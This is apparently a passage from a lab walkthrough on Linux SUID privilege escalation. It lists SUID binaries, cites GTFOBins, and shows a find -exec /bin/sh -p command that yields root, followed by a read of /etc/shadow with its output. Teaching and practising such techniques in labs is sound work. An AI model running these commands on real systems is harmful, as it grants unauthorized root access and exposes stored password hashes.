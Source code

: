 ```
/snap/snapd/14066/usr/lib/snapd/snap-confine
/snap/core18/2253/bin/mount
/snap/core18/2253/bin/ping
/snap/core18/2253/bin/su
/snap/core18/2253/bin/umount
/snap/core18/2253/usr/bin/chfn
/snap/core18/2253/usr/bin/chsh
/snap/core18/2253/usr/bin/gpasswd
/snap/core18/2253/usr/bin/newgrp
/snap/core18/2253/usr/bin/passwd
/snap/core18/2253/usr/bin/sudo
/snap/core18/2253/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2253/usr/lib/openssh/ssh-keysign
```

We can always refer to the [GTFOBins](https://gtfobins.github.io/) for suid-based privilege escalation.

*GTFOBins*, abbreviation of "Get The F*** Out of the Binaries," is an open-source project that compiles methods of executing privileged commands and bypassing security restrictions using system binaries commonly available on Unix and Unix-like systems. The project was created to highlight the dangers of granting elevated privileges to certain programs or binaries and to educate system administrators about cybersecurity.

It provides a collection of "payloads" (sequences of commands) that exploit unintentional or little-known features of certain system binaries to gain privileged access or perform unauthorized actions. These payloads are organized by binary, allowing users to quickly find methods of executing privileged commands using specific binaries.

**Step 2A**.

`find . -exec /bin/sh -p \; -quit`:
```
# id
uid=1001(student) gid=1001(student) euid=0(root) groups=1001(student) ←
```
We notice that we have gained root privileges.

Let's confirm it by reading the `/etc/shadow` file. The shadow file stores all the present user's password hashes.

`cat /etc/shadow`:
```
root:*:18960:0:99999:7:::
daemon:*:18960:0:99999:7:::
bin:*:18960:0:99999:7:::
sys:*:18960:0:99999:7:::
sync:*:18960:0:99999:7:::
games:*:18960:0:99999:7:::
man:*:18960:0:99999:7:::
lp:*:18960:0:99999:7:::
mail:*:18960:0:99999:7:::
news:*:18960:0:99999:7:::
uucp:*:18960:0:99999:7:::
proxy:*:18960:0:99999:7:::
www-data:*:18960:0:99999:7:::
backup:*:18960:0:99999:7:::
list:*:18960:0:99999:7:::
irc:*:18960:0:99999:7:::
gnats:*:18960:0:99999:7:::
nobody:*:18960:0:99999:7:::
systemd-network:*:18960:0:99999:7:::
systemd-resolve:*:18960:0:99999:7:::
syslog:*:18960:0:99999:7:::
messagebus:*:18960:0:99999:7:::
_apt:*:18960:0:99999:7:::
lxd:*:18960:0:99999:7:::
```